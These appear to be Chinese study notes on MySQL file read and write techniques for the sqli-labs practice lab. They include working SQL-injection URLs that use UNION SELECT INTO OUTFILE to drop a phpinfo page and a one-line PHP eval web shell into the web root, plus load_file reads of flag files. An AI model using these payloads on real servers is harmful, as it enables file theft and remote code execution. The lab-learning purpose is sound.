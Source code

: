 windows下根目录为当前盘

坑点：路径的反斜杠要两个，反斜杠转义反斜杠，斜杠用一个就行

mysql> `select load_file('\\flag.txt');`
mysql> `select load_file('/flag.txt');`

mysql> `select load_file('D:/flag.txt');`

### 写入文件

#### 方法一

`http://localhost/sqli-labs-master/Less-7/?id=0')) union select 1,'<?php phpinfo();?>',3 into outfile 'D:\\phpStudy\\WWW\\test.php'--+`



`select *** into outfile '路径+文件名'`
会把前面select的所有***内容输出到指定路径的文件中

不能覆盖或者追加到已经存在的文件，只能写入到新文件


输出字符串需要用引号包裹

`http://localhost/sqli-labs-master/Less-7/?id=1')) union select 1,“<?php @eval($_POST['do']);?>”,3 into outfile 'D:\\phpStudy\\WWW\\error.php'--+`

@ 不报错

字符串内有单引号，用双引号包裹或者用反斜杠转义



坑点 

union select前面有select 不用and拼接



#### 方法二
查询都自动写入文件：
mysql> pager cat > /tmp/test.txt ;
PAGER set to 'cat > /tmp/test.txt'
之后的所有查询结果都自动写入/tmp/test.txt'，并前后覆盖
mysql> select * from table ;
30 rows in set (0.59 sec)
在框口不再显示查询结果

前两种方式,导出的文件都在数据库所在服务器上


#### 方法三
跳出mysql命令行  这种方式可以将结果导出到本地文件
[root@SHNHDX63-146 ~]# mysql -h 127.0.0.1 -u root -p XXXX -P 3306 -D database_name -e "select * from table"  > /tmp/test/txt


## SQL注入
